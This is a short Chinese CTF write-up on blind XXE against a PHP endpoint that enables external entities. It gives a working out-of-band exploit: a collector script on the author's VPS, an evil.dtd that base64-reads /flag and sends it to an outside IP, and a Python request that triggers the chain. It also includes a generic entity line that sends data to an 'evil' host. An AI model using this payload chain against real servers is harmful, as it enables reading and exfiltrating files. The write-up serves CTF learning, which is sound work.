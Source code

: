 # XXE解决无回显

代码审计

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

我们可以用自己的VPS实现带外输出

首先建一个index.php

```php
<?php 
	$cookie = $_GET['q'];
	$myFile = "cookie.txt";
	file_put_contents($myFile, $cookie, FILE_APPEND);
?>
```

evil.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://42.192.137.212/index.php?q=%file;'>">
```

python发送请求即可，之后再网站根目录cookie.txt查看获取的flag即可

```
import requests

url = 'http://8bb031b1-bab9-43fe-b73b-d9741ed6617b.chall.ctf.show/'
payload = """<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://42.192.137.212/evil.dtd">
%remote;%int;%send;
]>
"""
requests.post(url, data=payload)

```

# 备注

> 关于实体嵌套的情况，比较幸运的是DTD中支持单双引号，所以可以通过单双引号间隔使用作为区分嵌套实体和实体之间的关系；在实际使用中，我们通常需要再嵌套一个参数实体，%号是需要处理成 &#37; 如下：
>
> <!ENTITY % param1 '<!ENTITY % xxe SYSTEM "http://evil/log?%payload;" >'
>
> `&#37;`也可写为16进制`&#x25;`